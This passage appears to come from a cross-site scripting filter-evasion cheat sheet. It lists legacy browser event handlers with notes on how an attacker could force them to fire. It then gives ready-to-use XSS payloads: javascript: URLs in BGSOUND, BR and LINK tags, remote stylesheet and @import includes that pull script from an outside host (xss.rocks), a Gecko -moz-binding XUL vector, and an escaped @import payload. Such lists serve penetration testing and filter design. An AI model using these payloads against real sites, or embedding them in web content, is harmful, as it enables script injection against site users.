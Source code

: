 - onSelectionChange() (user needs to select some text - attacker could auto initialize with something like: window.document.execCommand("SelectAll");)
- onSelectStart() (user needs to select some text - attacker could auto initialize with something like: window.document.execCommand("SelectAll");)
- onStart() (fires at the beginning of each marquee loop)
- onStop() (user would need to press the stop button or leave the webpage)
- onStorage() (storage area changed)
- onSyncRestored() (user interrupts the element's ability to play its media as defined by the timeline to fire)
- onSubmit() (requires attacker or user submits a form)
- onTimeError() (user or attacker sets a time property, such as dur, to an invalid value)
- onTrackChange() (user or attacker changes track in a playList)
- onUndo() (user went backward in undo transaction history)
- onUnload() (as the user clicks any link or presses the back button or attacker forces a click)
- onURLFlip() (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
- seekSegmentTime() (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

##### BGSOUND¶
<BGSOUND SRC="javascript:alert('XSS');">

##### & JavaScript includes¶
<BR SIZE="&{alert('XSS')}">

##### STYLE sheet¶
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

#### Remote style sheet¶
Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">

##### Remote style sheet part 2¶
This works the same as above, but uses a <STYLE> tag instead of a <LINK> tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end </STYLE> tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>

##### Remote style sheet part 3¶
This only works in Gecko rendering engines and works by binding an XUL file to the parent page.
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>

#### STYLE Tags that Breaks Up JavaScript for XSS¶
This XSS at times sends IE into an infinite loop of alerts:
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

